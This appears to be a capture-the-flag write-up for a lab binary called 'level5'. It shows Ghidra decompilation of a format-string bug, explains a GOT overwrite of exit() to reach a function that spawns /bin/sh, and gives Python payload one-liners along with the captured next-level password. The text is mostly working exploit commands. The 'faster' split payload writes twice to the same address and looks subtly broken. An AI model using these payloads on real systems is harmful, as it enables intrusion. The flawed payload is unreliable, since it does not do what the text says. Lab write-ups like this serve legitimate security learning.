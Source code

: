 get the binary on host
* scp -P 4242 level5@192.168.56.107:./level5 ./binary/level5

decompile using ghidras
```c
/*08048504*/void main(void)
			{
				n();
				return;
			}

/*080484c2*/void n(void)
			{
				undefined local_20c [520];
			
				fgets(local_20c,512,stdin);
				printf(local_20c);
/*080484f8*/		
				exit(1);
			}

/*080484a4*/void o(void)
			{
				system("/bin/sh");
				exit(1);
			}

```
`https://axcheron.github.io/exploit-101-format-strings/` <= learn to do a GOT Overwrite

We need addr of `o()`, `exit()`, `the offset of the string` 
* o addr ====> 0x0804 84a4
* exit addr => 0x08 04 98 38 (using objdump -R)
* By trying we get an off set of 4

str => `addr exit`\
`python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5` << this is valid but let try a faster way cause waiting 134 513 824 space to print is long

We can split the addr of 0 in 2 and but it in 2 time :\
`python -c "print '\x38\x98\x04\x08' + '%2048x%4\$hn' + '%31904x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5`
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```